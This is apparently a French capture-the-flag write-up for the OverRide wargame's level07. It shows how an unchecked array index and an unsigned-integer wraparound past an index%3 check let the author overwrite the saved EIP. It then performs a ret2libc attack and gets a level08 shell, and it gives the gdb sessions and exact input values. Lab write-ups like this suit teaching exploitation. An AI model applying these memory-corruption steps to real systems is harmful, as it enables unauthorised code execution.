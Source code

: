 ## Level07

On observe que le binaire nous permet de stocker un nombre a un certain index, et d'afficher le contenu du tableau pour un index donné.

Lorsque qu'on entre un index qui est divisible par 3, nous obtenons un message d'erreur:

![image](https://user-images.githubusercontent.com/29956389/95601346-9bf4b100-0a53-11eb-8b10-d557af6084f4.png)

Le binaire éfface les argument passé, ainsi que l'environement, mais nous laisse avec une stack executable.

```
while (av[i] != 0)
{
	memset(av[i], 0, strlen(av[i]));
	i++;
}
i = 0;
while (env[i] != 0)
{
	memset(env[i], 0, strlen(env[i]));
	i++;
}
```

Une fois le code désassemblé, on observe que le tableau qui stocke les nombres a 100 index: `char	database[100];`, mais aucune vérification est faite sur l'index que nous donnons, nous pouvons donc en theorie écrire ou nous voulons.

On peut donc stocker notre shellcode directement dans le tableau, et réécrire l'eip pour qu'il pointe sur notre shellcode.

Avec la structure du code, on tente donc de trouver l'eip stocké lors de l'appel a main:

```
level07@OverRide:~$ gdb -q ./level07 
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.
(gdb) b *main
Breakpoint 1 at 0x8048723
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048723 in main ()
(gdb) i f
Stack level 0, frame at 0xffffd710:
 eip = 0x8048723 in main; saved eip 0xf7e45513
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd710
 Saved registers:
  eip at 0xffffd70c   <--- EIP
```

Maintenant il faut trouver l'adresse du tableau pour en dériver l'index que nous utiliserons pour réécrire l'eip:

Pour cela on peut directement afficher l'adresse `[esp+0x24]` a `main+110`, le problème est que gdb modifie les variables d'environement, ce qui entraine une variation dans les adresses de la stack. On aura donc bien du mal a trouver l'adresse lorsque nous somme pas dans GDB.

La solution ici, est d'utiliser la fonction `read_number` pour trouver la différence relative entre l'adresse effective du tableau, et l'adresse du tableau passé en argument a la fonction `read_number`: Cette différence ne changera pas lors d'ajout ou de retrait de variable d'environement.

Lors de l'appel a `read_number`, le tableau sera stocké a `ebp+0x8`: EBP est le debut de notre stackframe, `ebp+0x4` est l'eip enregistré, et `ebp+0x8` est le tableau logiquement.

```
(gdb) b *read_number+6
(gdb) r
[...]
(gdb) x $ebp+0x8
0xffffd520:     0xffffd544
```

`0xffffd520` est l'adresse pour l'argument de la fonction, et `0xffffd544` est l'adresse réélle du tableau.

```
(gdb) p 0xffffd544 - 0xffffd520
$2 = 36
(gdb) p 36 / 4  <-- 4 parce que tableau de int
$3 = 9
```

On obtiens l'index 9. `9 % 3 == 0` il faut donc contourner cette protection. Si nous prenons `-9`, on fait passer l'unsigned int a 4294956356 soit 0xFFFFD544: notre tableau.

Calculons maintenant l'offset entre le tableau et l'eip enregistré:

```
=> eip at 0xffffd70c
=> database is at 0xffffd544
[...]
(gdb) p 0xffffd70c - 0xffffd544
456
(gdb) p 456 / 4  <--- to int
114
```

L'offset est de 114, vérifions:

```
Breakpoint 1, 0x080486dd in read_number ()
(gdb) c
Continuing.
 Index: 114
 Number at data[114] is 4158936339  <-- eip ?
 Completed read command successfully
(gdb) p/x 4158936339
$10 = 0xf7e45513
(gdb) x 0xf7e45513
0xf7e45513 <__libc_start_main+243>:     0xe8240489
```

Problème: 114 est divisable par 3.

On obseve ceci a la fin de la fonction `store_number`:

```
// index = index << 2; 
// <+149>:   shl    eax,0x2
database[index << 2] = nbr;
```

Ce qui equivaut a multiplier l'index donné par 4, ceci nous permet de faire wrapper l'unsigned int et d'inserer une valeur a l'index 114:

On prend donc `(UINT_MAX / 4) + 114` soit  `4294967296 / 4 + 114` = `1,073,741,938`

Essayons:

```
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
[...]

Input command: store
 Number: 3735928559	(0xdeadbeef)
 Index: 1073741938	(0xffffd70c)
 Completed store command successfully
Input command: quit

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()	<-- Nice
```

Utilisons a présent une attaque ret2libc:
  - On sait que l'eip `0xffffd70c` est stocké a l'index+114 soit `1073741938`, c'est la qu'on écrira l'adresse du syscall `system`.
  - L'index + 115 est l'adresse retour, on peut y mettre l'adresse d'exit si on souhaite quitter le programme proprement.
  - L'index + 116 doit contenir notre string `/bin/sh`
  
Localisons ces addresses:

```
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system	<-- Ici
0xf7f48a50  svcerr_systemerr
(gdb) p 0xf7e6aed0
$11 = 4159090384	<-- En décimal pour le stockage

(gdb) info proc map
process 8082
Mapped address spaces:
[...]
Start Addr   End Addr       Size     Offset objfile
[...]
    0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
    0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
    0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
    0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
(gdb) find 0xf7e2c000,0xf7fd0000,"/bin/sh"
0xf7f897ec	<-- ici
1 pattern found.
(gdb) p 0xf7f897ec
$12 = 4160264172	<-- en décimal
```

Ce qui nous donne:

```
evel07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
[...]

Input command: store
 Number: 4159090384	<--- system()
 Index: 1073741938	<--- EIP
 Completed store command successfully
Input command: store
 Number: 4160264172	<--- "/bin/sh"
 Index: 116		<-- System(114) + ret_addr(115) + "/bin/sh"(116)
 Completed store command successfully
```

Et maintenant il ne reste plus qu'a pop l'eip enrégistré en quittant le main:

```
[...]
Input command: quit
$ whoami
level08
$ 
```



